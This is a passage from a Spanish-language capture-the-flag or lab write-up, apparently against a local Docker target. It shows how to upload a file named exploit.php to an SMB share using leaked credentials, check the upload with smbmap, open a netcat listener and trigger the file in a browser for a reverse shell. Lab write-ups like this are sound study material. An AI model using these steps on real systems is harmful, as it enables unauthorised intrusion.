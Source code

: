```
smbclient //172.17.0.2/html -U bob%star -c "put exploit.php"
```

![](img/Pasted%20image%2020241215205231.png#center)


Comprobamos si se subió correctamente, enumerando de nuevo el recurso `html`
```
smbmap -u 'bob' -p 'star' -H 172.17.0.2 -r html
```

![](img/Pasted%20image%2020241215205326.png#center)

Vemos que se subió correctamente. Ahora desde el navegador tenemos que intentar ejecutar el fichero `exploit.php`, que hemos creado, pero antes tenemos que ponernos a la escucha con `netcat`, por el puerto especificado en el fichero o exploit.

```
nc -nvlp 1234
```

![](img/Pasted%20image%2020241215195728.png#center)

Ejecutamos el exploit en el navegador

![](img/Pasted%20image%2020241215205603.png#center)
